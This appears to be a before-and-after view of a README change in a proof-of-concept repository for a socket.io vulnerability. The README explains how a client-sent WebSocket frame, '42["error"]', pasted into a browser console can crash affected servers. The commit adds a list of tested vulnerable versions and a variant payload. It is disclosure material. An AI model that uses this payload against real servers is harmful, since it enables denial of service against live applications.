

Before and after one commit to Y0ursTruly/socketio-cve, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; pictures changed too: example.png (added); blank space fills up the shorter version.

Commit message:
several versions tested and proven vulnerable

````diff
--- a/README.md
+++ b/README.md
@@ -4,8 +4,10 @@ A carefully crafted message sent from a connected client can throw an error on t
 ## Replication
 - In the code below, the attack will commence as soon as soon as the [WebSocket](https://developer.mozilla.org/en-US/docs/Web/API/WebSocket) instance is intercepted
 - One can run this repository, open the url it would be hosted in a browser and paste the code in to execute the attack
-- You can wait for a probe from the server or initiate some interaction just to access the websocket to send the maliciously crafted text
-- This works to at least `3.1.2` and it works because of unfortunately handled events from [socket.io](https://github.com/socketio/socket.io)
+- You can wait for a probe from the server(this takes a little while) **or** initiate some interaction just to access the websocket to send the maliciously crafted text
+- This works up to `4.6.1` and it works because of unfortunately handled events from this library
+- Exact versions tested were: `3.1.2`, `4.3.2`, `4.6.2`(this one didn't crash), `4.6.0`, `4.7.5`(this one didn't crash), `4.6.1`
+
 ```js
 function listen(fn){ //this function from my answer in https://stackoverflow.com/a/70267397/10697213
   fn = fn || console.log;
@@ -40,5 +42,8 @@ listen( ({data,socket}) => {
   window.server=socket
   //2 lines above contain pointless logging
   server.send('42["error"]') //THIS IS THE CRITICAL LINE
+  //server.send('42["error","you can have any JSON serialisable data here(2nd entry in array) and it will show in the error context >:D"]')
 })
 ```
+
+![server crash example](example.png)
````
Also changed, not shown: 2 other files.
